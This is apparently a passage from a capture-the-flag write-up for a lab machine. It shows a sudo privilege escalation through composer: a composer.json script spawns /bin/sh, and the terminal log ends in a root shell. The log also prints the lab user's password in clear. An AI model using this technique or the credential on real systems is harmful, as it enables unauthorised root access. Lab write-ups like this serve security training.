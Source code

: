 I browsed to GTFOBins and found composer sudo priviledge escalation. I followed the schema and got root:

```
mrb3n@academy:~$ TF=$(mktemp -d)
TF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
<":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ sudo /usr/bin/composer --working-dir=$TF run-script x
sudo /usr/bin/composer --working-dir=$TF run-script x
[sudo] password for mrb3n: mrb3n_Ac@d3my!

PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
and than caught root.txt.
